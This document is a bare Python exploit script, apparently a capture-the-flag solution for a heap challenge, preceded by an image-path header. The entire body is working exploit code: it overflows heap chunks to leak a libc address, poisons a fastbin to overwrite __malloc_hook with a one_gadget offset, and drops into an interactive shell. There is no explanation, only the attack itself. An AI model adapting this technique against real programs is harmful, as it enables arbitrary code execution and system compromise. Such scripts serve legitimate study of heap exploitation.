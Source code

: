 ```python

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)

payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += p8(0x80)

fill(0,payload)
payload = p64(0) * 3
payload += p64(0x21)
fill(3,payload)
allocate(0x10)
allocate(0x10)

payload = p64(0) * 3
payload += p64(0x91)

fill(3,payload)
allocate(0x80)
free(4)

dump(2)
io.recvuntil("Content: \n")

libc_base = u64(io.recv(8)) - 0x3c4b78
malloc_hook = libc_base + libc.symbols['__malloc_hook']

allocate(0x60)
free(4)
payload = p64(malloc_hook - 35)
fill(2, payload)
 
allocate(0x60)
allocate(0x60)
 
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
 
allocate(50)
io.interactive()
```
